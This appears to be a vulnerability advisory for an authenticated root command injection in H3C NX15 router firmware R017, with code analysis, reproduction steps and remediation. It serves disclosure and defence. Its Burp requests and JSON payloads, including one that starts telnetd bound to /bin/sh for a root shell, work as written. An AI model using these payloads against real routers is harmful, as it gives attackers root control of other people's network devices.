




# H3C NX15 R017 `reload.reload_config` Authenticated Root Command Injection

## Summary

H3C NX15 Router firmware NX15V100R017 exposes the raw ubus object `reload` through the authenticated `/api/esps` web API. The `reload.reload_config` method concatenates the attacker-controlled `config` parameter into a shell command and executes it with `system()`, allowing an authenticated administrator to execute arbitrary commands as root.

## Vendor and Product

- Vendor: H3C
- Product: NX15 Router
- Affected firmware: NX15V100R017 / R017
- Component: `/api/esps` backend RPC
- Vulnerable object: `reload`
- Vulnerable method: `reload_config`
- Vulnerable parameter: `config`

## Vulnerability Type

- OS command injection
- Suggested CWE: CWE-78
- Attack vector: Remote
- Authentication required: Yes
- Privileges required: Administrator web session
- User interaction required: No

## Impact

An authenticated attacker can execute arbitrary commands as root. Runtime testing on the physical device confirmed that a crafted short `config` value can create a marker file and start a temporary shell service that runs with UID 0.

## Technical Details

The web backend `/api/esps` can forward authenticated requests to raw ubus objects, including the object:

```text
reload
```

The `reload_config` method accepts:

```text
config
method
status
```

Reverse analysis of the method handler shows that the `config` parameter is copied into a local fixed-size buffer and later used to build a shell command:

```c
strncpy(config, config_ptr, 0x1f);
sprintf(cmd, "/sbin/config_reload %s", config);
system(cmd);
```


This detail matters for exploitation: the runtime buffer keeps at most 31 attacker-controlled bytes before the final `sprintf()` and `system()` call. As a result, the direct injection is real, but payloads must remain short. Long combined payloads that try to create a marker and start a shell in one request may be truncated before the shell sees the full command line.

There is no strict allowlist, shell escaping, or metacharacter filtering before `system()` is called. Therefore, shell separators or command-substitution syntax in `config` can escape the intended `/sbin/config_reload <config>` call, provided the attacker keeps the injected string within the effective 31-byte limit.

The `status` parameter controls whether the reload is executed immediately or queued asynchronously. In the immediate path (`status=1`), the vulnerable command construction reaches `system()` directly. The queued path (`status=0`) also reaches `/sbin/config_reload`, but the immediate path is the clearest and most reliable validation path on the tested device.

This issue is separate from the configuration-pollution chain documented elsewhere in the project. Here, the `config` field itself is the injection point. The attack path is:

```text
POST /api/esps
  -> authenticated /www/api /esps handler
  -> lua /usr/lib/lua/protol_cvt.lua magic_link '<request-body>'
  -> /usr/lib/lua/magic_link/magic_link.lua maps object="reload", method="reload_config"
  -> reload.reload_config
  -> "/sbin/config_reload <config>"
  -> system(cmd)
```

Static strings from `/usr/bin/reload` reinforce the reverse-engineering result. The binary exposes the tokens:

- `/sbin/config_reload %s`
- `reload_config`
- `config`
- `method`
- `status`

which align exactly with the reachable ubus method and its parameters.

## Firmware Paths for Audit

The following paths are firmware-internal paths relative to the extracted firmware root filesystem:

- `/www/api`: web API binary that accepts authenticated `/api/esps` requests and forwards them to ubus objects.
- `/usr/lib/lua/protol_cvt.lua`: Lua protocol bridge that decodes the JSON request and issues the ubus call.
- `/usr/lib/lua/magic_link/magic_link.lua`: direct `object/method/param` to `path/func/args` mapping for `/api/esps`.
- `reload` ubus object provider: runtime ubus provider that registers `reload.reload_config`; locate it in the extracted firmware by searching for `reload_config` and `/sbin/config_reload`.
- `/usr/bin/reload`: binary exposing the `reload.reload_config` implementation and the `/sbin/config_reload %s` command template.
- `/sbin/config_reload`: command invoked by `reload.reload_config`; the vulnerable handler builds `/sbin/config_reload <config>` and executes it through `system()`.

## Reproduction

Run the included PoC with valid administrator credentials:

```bash
python3 poc/postauth_reload_reload_config_rce.py \
  --base http://192.168.8.1 \
  --username admin \
  --password '<admin-password>' \
  --port 2501
```

The PoC:

1. Authenticates to the web interface.
2. Calls `/api/esps` with object `reload` and method `reload_config`.
3. Sends a short crafted `config` value containing shell metacharacters.
4. Starts a temporary shell service within the observed 31-byte buffer limit.
5. Connects to the shell and verifies root execution.

Expected result:

```text
uid=0(root)
```

Manual request shape:

```json
[
  {
    "id": 1,
    "object": "reload",
    "method": "reload_config",
    "param": {
      "config": "network; <command>",
      "method": "reload",
      "status": 1
    }
  }
]
```

Because `config` is truncated to 31 bytes before the final command is built, validation should be split into two stages.

Marker-only validation request:

```json
[
  {
    "id": 1,
    "object": "reload",
    "method": "reload_config",
    "param": {
      "config": "x;echo OK>/tmp/r;#",
      "method": "reload",
      "status": 1
    }
  }
]
```

Short shell-spawn validation request:

```json
[
  {
    "id": 1,
    "object": "reload",
    "method": "reload_config",
    "param": {
      "config": "x;telnetd -p2501 -l/bin/sh;#",
      "method": "reload",
      "status": 1
    }
  }
]
```

After the shell-spawn request returns, connect to `telnet 192.168.8.1 2501` and run `id`.

BurpSuite step-by-step reproduction:

1. Authenticate in Burp Repeater:

```http
POST /api/login/auth HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Connection: close

{"username":"admin","password":"admin123"}
```

2. Extract `data.session` and send the short marker-only validation request:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"reload","method":"reload_config","param":{"config":"x;echo OK>/tmp/r;#","method":"reload","status":1}}]
```

3. Confirm the marker through any existing helper shell or other verified execution channel:

```sh
ls -l /tmp/r
cat /tmp/r
```

4. Then send the short shell-spawn request:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"reload","method":"reload_config","param":{"config":"x;telnetd -p2501 -l/bin/sh;#","method":"reload","status":1}}]
```

5. Wait briefly and connect:

```bash
telnet 192.168.8.1 2501
```

or:

```bash
nc 192.168.8.1 2501
```

6. Run:

```sh
id
uname -a
```

7. The same object can also be exercised with `"status":0`, but on the tested physical device `status=1` was the reliable path for short direct-injection validation.

## Evidence

- The Lua `magic_link` layer allows authenticated `/api/esps` callers to target raw ubus object `reload` directly.
- Static analysis of `/usr/bin/reload` exposed the `reload_config` parameter names and `/sbin/config_reload %s` command template.
- Reverse analysis identified `strncpy(config, config_ptr, 0x1f)` followed by `sprintf("/sbin/config_reload %s", config)` and `system(cmd)`.
- Runtime verification on the physical device confirmed:
  - a short marker-only payload (`x;echo OK>/tmp/r;#`) executes successfully with `status=1`;
  - a short shell-spawn payload (`x;telnetd -p2501 -l/bin/sh;#`) successfully opens a root shell;
  - longer combined payloads can fail because the attacker-controlled `config` string is truncated before command execution.

## Attachments

- Report: `report/postauth_reload_reload_config_rce_report.md`
- PoC: `poc/postauth_reload_reload_config_rce.py`

## Remediation

- Do not pass user-controlled strings to `system()`.
- Replace shell invocation with `execve()` or equivalent argument-vector execution.
- Enforce a strict allowlist of valid configuration names.
- Prevent `/api/esps` from forwarding to raw system ubus objects unless explicitly required.
